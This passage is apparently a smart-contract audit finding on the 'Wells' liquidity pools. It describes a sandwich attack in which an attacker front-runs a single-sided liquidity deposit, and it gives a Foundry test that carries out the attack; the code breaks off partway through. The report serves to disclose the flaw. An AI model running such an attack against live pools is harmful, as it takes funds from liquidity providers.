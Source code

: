 ### Impact

Wells supports adding and removing liquidity in imbalanced proportions. If a user wants to deposit liquidity in an imbalanced ratio (only one token). A attacker can front run the user by doing the same and removing the liquidity directly after the deposit of the user. By doing so the attacker steals a significant percentage of the users funds. This bug points to a mathematical issue whose effects could be even greater.

### Proof of Concept

The following code demonstrates the described vulnerability:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import {TestHelper, Balances} from "test/TestHelper.sol";

contract Exploits is TestHelper {
    function setUp() public {
        setupWell(2); // Setup Well with two tokens and a balanced token ratio
    }

    function test_add_liquidity_sandwich_attack() public {
        // init attacker and liquidityProvider, gives them some tokens and saves there balances before the attack
        address liquidityProvider = vm.addr(1);
        address attacker = vm.addr(2);
        mintTokens(liquidityProvider, uint256(100 * 1e18));
        mintTokens(attacker, uint256(1000 * 1e18));
        Balances memory liquidityProviderBalanceBefore = getBalances(address(liquidityProvider), well);
        Balances memory attackerBalanceBefore = getBalances(address(attacker), well);

        // liquidityProvider wants to provide liquidity for only one token / not in current token ratio

        // attacker front runs liquidityProvider and add liquidity for token[0] before liquidityProvider
        vm.startPrank(attacker);
        tokens[0].approve(address(well), 1000 * 1e18);
        uint256[] memory amounts1 = new uint256[](2);
        amounts1[0] = 1000 * 1e18; // 10x the tokens of the liquidityProvider to steal more funds
        amounts1[1] = 0;
        well.addLiquidity(amounts1, 0, attacker, type(uint256).max); 
        vm.stopPrank();

        // liquidityProvider deposits some token[0] tokens
        vm.startPrank(liquidityProvider);
        tokens[0].approve(address(well), 100 * 1e18);
        uint256[] memory amounts2 = new uint256[](2);
        amounts2[0] = 100 * 1e18;
        amounts2[1] = 0;
        well.addLiquidity(amounts2, 0, liquidityProvider, type(uint256).max); 
        vm.stopPrank();

        // attacker burns the LP tokens directly after the deposit of the liquidity provider
        vm.startPrank(attacker);
        Balances memory attackerBalanceBetween = getBalances(address(attacker), well);
        well.removeLiquidityOneToken(
            attackerBalanceBetween.lp,
            tokens[0],
            1,
            address(attacker),
```